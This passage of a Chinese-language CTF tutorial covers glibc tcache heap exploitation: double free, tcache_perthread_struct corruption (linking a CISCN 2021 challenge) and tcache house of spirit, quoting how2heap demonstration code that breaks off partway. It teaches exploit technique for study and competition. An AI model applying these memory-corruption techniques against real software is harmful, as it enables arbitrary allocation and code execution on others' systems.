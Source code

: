    第二次 free 时，虽然 **free 的是同一个 chunk**，但因为 `tcache_put()` 没有做任何检查，因此程序不会 crash，可以看出，这种方法与 `fastbin dup` 相比也简单了很多（fastbin在free时有头部检查，不能两次释放同一个）：
   
   ![image-20240719161523304](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407191615644.png)

### 3. tcache perthread corruption

1. 我们已经知道 `tcache_perthread_struct` 是整个 tcache 的管理结构，如果能**控制这个结构体**，那么无论我们 malloc 的 size 是多少，地址都是可控的。

   例子，申请到**tcache_perthread_struct作为chunk**，然后修改其中的值，实现**任意大小、任意地址的chunk分配**：

   

   地址：[[CISCN 2021 初赛\]lonelywolf | NSSCTF](https://www.nssctf.cn/problem/856)

   题解：[NSSCTF[堆\][tcache]-CSDN博客](https://blog.csdn.net/yjh_fnu_ltn/article/details/140398391?spm=1001.2014.3001.5501)



### 4. tcache house of spirit

1. 拿 how2heap 的源码来讲：

   ```c
   #include <stdio.h>
   #include <stdlib.h>
   
   int main()
   {
       fprintf(stderr, "This file demonstrates the house of spirit attack on tcache.\n");
       fprintf(stderr, "It works in a similar way to original house of spirit but you don't need to create fake chunk after the fake chunk that will be freed.\n");
       fprintf(stderr, "You can see this in malloc.c in function _int_free that tcache_put is called without checking if next chunk's size and prev_inuse are sane.\n");
       fprintf(stderr, "(Search for strings \"invalid next size\" and \"double free or corruption\")\n\n");
   
       fprintf(stderr, "Ok. Let's start with the example!.\n\n");
   
   
       fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
       malloc(1);
   
       fprintf(stderr, "Let's imagine we will overwrite 1 pointer to point to a fake chunk region.\n");
       unsigned long long *a; //pointer that will be overwritten
       unsigned long long fake_chunks[10]; //fake chunk region
   
       fprintf(stderr, "This region contains one fake chunk. It's size field is placed at %p\n", &fake_chunks[1]);
   
       fprintf(stderr, "This chunk size has to be falling into the tcache category (chunk.size <= 0x410; malloc arg <= 0x408 on x64). The PREV_INUSE (lsb) bit is ignored by free for tcache chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
       fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
       fake_chunks[1] = 0x40; // this is the size
   
   
       fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
       fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
   
       a = &fake_chunks[2];
   ```